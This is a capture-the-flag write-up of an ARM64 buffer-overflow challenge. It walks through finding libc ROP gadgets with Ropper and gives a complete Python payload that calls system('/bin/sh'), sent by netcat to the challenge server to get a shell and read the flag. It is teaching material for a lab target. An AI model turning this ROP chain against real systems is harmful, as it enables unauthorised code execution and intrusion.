


# Locating buffer overflow by Cryptax and @therealsaumil

`./trail` is an ARM64 ELF executable. It is not stripped:

```
$ file trail 
trail: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=6159d835d9a1906975a278e1724633884be46f49, for GNU/Linux 3.7.0, not stripped
```

The participant environment contains a fake flag in `/FLAG`:

```
[arm64] ~$ ls -al
total 444
drwxr-xr-x 5 r0   r0     4096 Oct 31 13:50 ./
drwxr-xr-x 3 root uucp   4096 Jul 23  2022 ../
-rwxr-xr-x 1 r0   r0      198 Oct 24 08:13 ._trail*
-rw-r--r-- 1 r0   r0      220 Jul 23  2022 .bash_logout
-rw-r--r-- 1 r0   r0     3526 Jul 23  2022 .bashrc
drwxr-xr-x 2 r0   r0     4096 Nov 25 06:15 .dircolors/
-rw-r--r-- 1 r0   r0      120 Dec 14  2022 .gdbinit
-rw-r--r-- 1 r0   r0   392824 Dec 24  2022 .gdbinit-gef.py
-rw-r--r-- 1 r0   r0        0 Dec 14  2022 .hushlogin
-rw-r--r-- 1 r0   r0      987 Dec 14  2022 .profile
drwx------ 2 r0   r0     4096 Nov 25 06:15 .ssh/
-rw------- 1 r0   r0      763 Jan  2  2023 .viminfo
-rw-r--r-- 1 r0   r0      215 Dec 24  2022 .wget-hsts
drwxrwxr-x 2 r0   r0     4096 Oct 30 09:31 shared/
-rwxr-xr-x 1 r0   r0     9576 Oct 24 08:13 trail*
[arm64] ~$ ls /
FLAG  boot/  etc/   lib/         media/  opt/   root/  sbin/  sys/  usr/
bin/  dev/   home/  lost+found/  mnt/    proc/  run/   srv/   tmp/  var/
[arm64] ~$ cat /FLAG
ph0wn{replace-with-final-flag}
```

This is an exploit challenge. We quickly identify there is a buffer overflow:

```
$ ./trail
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
Runner name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, you have successfully been registered
Good luck!
Segmentation fault (core dumped)
```

GEF is installed in the environment, so we load `gdb`, generate a long pattern and feed it to the binary to see what our stack and registers look like.



Use the GEF command `registers` to show registers.



So, we are able to control:

- x29 aka Frame Pointer
- x30 aka Link Register (return address of functions)
- PC
- x31 aka Stack Pointer

# Creating the exploit

We want to exploit the buffer overflow to get a shell on the device and read the flag. As the description seems to hint ("HOP ROP ROP"), we try to **ROP**.
Return Oriented Programming is more difficult on ARM64 for several reasons:

1. Usage of PC is restricted (unlike ARM32)
2. Only few instructions support SP as an operand on ARM64
3. Stack memory is not executable. Because of that a simple buffer overflow with nops + shellcode won't work on ARM64... which is why we have to turn to ROP.

Additionally, there are a few differences with ARM32 such as, of course, different instructions, but also, in ARM64, the return address is stored at the top of the frame (whereas it's at the bottom for ARM32). This is the ARM64 frame layout:

- SP --> x29 Frame Pointer
- x30 Link Register containing the return address
- Local variables
- ...

Let's go back to our ROP idea. We're going to use gadgets from the libc. Basically, the idea is to execute `system("/bin/sh")`, where `system` is a function in the libc.

`system` is located at 0x43c90. Also, note the libc starts at 0x0000fffff7e56000.

```
gef>  xinfo system
Page: 0x0000fffff7e56000  ->  0x0000fffff7fb3000 (size=0x15d000)
Permissions: r-x
Pathname: /lib/aarch64-linux-gnu/libc-2.31.so
Offset (from page): 0x43c90
Inode: 21282698
Segment: .text (0x0000fffff7e79d00-0x0000fffff7f6bc50)
Offset (from segment): 0x1ff90
Symbol: system
```

We need to pass a parameter to `system` (`/bin/sh`). To do so, we need to set x0 (first argument) to SP (`x0 = sp`).

We are going to search for a gadget in the libc that moves SP to x0 with [Ropper](https://github.com/sashs/Ropper). 

```
~/shared/rop64$ ropper 
(ropper)> file libc-2.31.so
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
```

Search for gadgets with one instruction (`/1/`):

```
(libc-2.31.so/ELF/ARM64)> search /1/ mov x0, sp
[INFO] Searching for gadgets: mov x0, sp
```

There are none, so we try another way to set x0, using the `add` instruction and 2 instructions:

```
(libc-2.31.so/ELF/ARM64)> search /2/ add x0, sp
[INFO] Searching for gadgets: add x0, sp

[INFO] File: libc-2.31.so

0x00000000000a4564: add x0, sp, #0x10; eor x1, x1, x2; blr x1; 
0x00000000000ce60c: add x0, sp, #0x10; eor x1, x2, x3; blr x1; 
0x00000000000978b0: add x0, sp, #0x110; str x2, [sp, #0x110]; blr x25; 
```

The first gadget is usable, but not "perfect". It branches at the end to *x1*. We want it to branch to `system`, so we need to find a way to set x1. We are going to find for a gadget that helps set x1 to an arbitrary value. We use ropper once again to find such a gadget.

```
libc.so.6/ELF/ARM64)> search /1/ ldr x1, [sp
[INFO] Searching for gadgets: ldr x1, [sp

[INFO] File: libc.so.6
0x00000000000f78c4: ldr x1, [sp, #0x60]; blr x1; 
0x00000000000ca2e8: ldr x1, [sp, #0x78]; blr x4; 
0x0000000000102098: ldr x1, [sp, #0x80]; blr x2; 
0x00000000000ff6c8: ldr x1, [sp, #0x90]; blr x2; 
0x00000000000f7d7c: ldr x1, [sp, #0xc0]; blr x1; 
```

Those are branching to x1, x4 etc. We'd like something that sets x1 and returns. We continue our research. With 2 instructions, no better. But with 3 instructions, the first one is interesting.

```
(ropper)> search /3/ ldr x1, [sp
0x00000000000311b8: ldr x1, [sp, #0x18]; mov x0, x1; ldp x29, x30, [sp], #0x20; ret; 
0x00000000000f8e8c: ldr x1, [sp, #0x40]; mov x0, x20; ldr x1, [x1, #0x20]; blr x1; 
...
```

This first gadget stores `x1=sp + 0x18`, then moves x1 in x0 (x0 contains the return value) and finally does a `ret`. So it will return x1.

# Wrapping up the exploit

So, we need to:

1. Launch the second gadget and set x1 to the address of `system`
2. Launch the first gadget with x0 pointing to `/bin/sh`

```python
# the address of libc
libc_base = 0x0000fffff7e56000

# "second" gadget - which sets x1
ldr_x1_sp_18_ret = libc_base + 0x00000000000311b8

# first gadget that sets x0 
add_x0_sp_10_blr_x1 = libc_base + 0x00000000000a4564

# address of system
system = libc_base + 0x43c90
```

Then, we craft the buffer overflow. 

```python
def p64(value):
    return(struct.pack("<Q", value)) # little byte order

buf = b"A" * 40

rop = b""
rop += p64(ldr_x1_sp_18_ret)
rop += p64(0x4848484848484848)
rop += p64(add_x0_sp_10_blr_x1)
rop += p64(0x5050505050505050)

# this value, 0xfbad2a84 appears in x2, we have to XOR it to point to system
rop += p64(system ^ 0xfbad2a84) 
rop += p64(0x5252525252525252)
rop += p64(0x5353535353535353)

rop += b"/bin/sh;#"

buf = buf + rop

payload = buf + b"\n"

sys.stdout.buffer.write(payload)
```

# Running the exploit

```
$ (python3 ./solution.py ; cat -) | nc chal.ph0wn.org 9123
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�q����^@^@HHHHHHHHd�����^@^@PPPPPPPP^T�D^L��^@^@RRRRRRRRSSSSSSSS/bin/sh;#
Runner name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�q����, you have successfully been registered
Good luck!
id
id
uid=1000(r0) gid=1000(r0) groups=1000(r0),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),102(netdev)
uname -a
uname -a
Linux arm64 5.10.7 #8 SMP PREEMPT Thu Dec 29 20:34:15 UTC 2022 aarch64 GNU/Linux
ls /
ls /
bin   dev  FLAG  lib	     media  opt   root	sbin  sys  usr
boot  etc  home  lost+found  mnt    proc  run	srv   tmp  var
cat /FLAG
cat /FLAG
ph0wn{is_there_h0pe_4_r0pe}
```
